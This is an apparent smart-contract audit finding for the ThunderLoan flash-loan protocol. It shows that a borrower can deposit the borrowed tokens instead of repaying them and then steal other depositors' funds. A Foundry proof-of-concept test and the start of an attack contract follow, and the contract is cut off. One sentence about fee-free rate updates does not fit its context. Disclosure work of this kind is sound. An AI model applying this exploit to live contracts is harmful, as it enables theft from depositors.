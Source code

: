 ### [H-2] Funds can be stolen by the attacker if they ignore the repay function and instead deposit the same amount.

**Description:** After someone flash loans the amount of tokens they want to, instead of having to `ThunderLoan::repay` function, they can directly deposit the same amount of tokens directly using `deposit` function. Which would lead to protocol thinking the `endingBalance` is equal to starting balance, but what really happens is the attacker deposits the tokens under their own deposited balance and steal funds from the person/people who originally deposit funds.

However in `deposit` function, updates are made to this rate without collecting any fee.

## POC

To execute the test successfully, please complete the following steps:

1. Place the **`attack.sol`** file within the mocks folder.
1. Import the contract in **`ThunderLoanTest.t.sol`**.
1. Add **`testattack()`** function in **`ThunderLoanTest.t.sol`**.
1. Change the **`setUp()`** function in **`ThunderLoanTest.t.sol`**.

```Solidity
import { Attack } from "../mocks/attack.sol";
```

```Solidity
function testattack() public setAllowedToken hasDeposits {
        uint256 amountToBorrow = AMOUNT * 10;
        vm.startPrank(user);
        tokenA.mint(address(attack), AMOUNT);
        thunderLoan.flashloan(address(attack), tokenA, amountToBorrow, "");
        attack.sendAssetToken(address(thunderLoan.getAssetFromToken(tokenA)));
        thunderLoan.redeem(tokenA, type(uint256).max);
        vm.stopPrank();

        assertLt(tokenA.balanceOf(address(thunderLoan.getAssetFromToken(tokenA))), DEPOSIT_AMOUNT);
    }
```

```Solidity
function setUp() public override {
        super.setUp();
        vm.prank(user);
        mockFlashLoanReceiver = new MockFlashLoanReceiver(address(thunderLoan));
        vm.prank(user);
        attack = new Attack(address(thunderLoan));
    }
```

attack.sol

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import { IERC20 } from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import { SafeERC20 } from "@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol";
import { IFlashLoanReceiver } from "../../src/interfaces/IFlashLoanReceiver.sol";

interface IThunderLoan {
    function repay(address token, uint256 amount) external;
    function deposit(IERC20 token, uint256 amount) external;
    function getAssetFromToken(IERC20 token) external;
}


contract Attack {
    error MockFlashLoanReceiver__onlyOwner();
    error MockFlashLoanReceiver__onlyThunderLoan();
```